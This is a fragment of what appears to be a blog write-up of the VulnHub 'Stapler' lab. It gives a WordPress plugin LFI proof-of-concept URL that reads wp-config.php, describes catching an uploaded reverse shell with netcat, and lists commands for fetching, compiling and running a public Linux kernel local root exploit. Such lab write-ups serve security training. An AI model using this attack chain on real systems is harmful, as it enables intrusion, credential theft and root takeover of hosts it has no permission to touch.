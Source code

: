 got a LFI exploit.

Try the POC:

```
https://192.168.41.152:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php
```

and got:

{% img /images/blog/vulhub/stapler/Selection_013.png   [title manually exploit [alt text]] %}

check folder:

`https://192.168.41.152:12380/blogblog/wp-content/uploads/`


{% img /images/blog/vulhub/stapler/Selection_014.png   [title manually exploit [alt text]] %}

looks like the reverse shell is uploaded successfully, even it is not installed as plugin.

setup netcat, get the shell:

{% img /images/blog/vulhub/stapler/Selection_015.png   [title manually exploit [alt text]] %}

`uname -a`

{% img /images/blog/vulhub/stapler/Selection_016.png   [title manually exploit [alt text]] %}

get linux kernel version, then do

`searchsploit 4.4 | grep linux`

and found exploit `Linux Kernel 4.4.x (Ubuntu 16.04) - double-fdput() in bpf(BPF_PROG_LOAD) Local Root Exploit`


In kali:

```
wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/39772.zip
cp 39772.zip /var/www/html/
```

In target:

```
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
./doubleput
```

get the root:


{% img /images/blog/vulhub/stapler/Selection_017.png   [title manually exploit [alt text]] %}








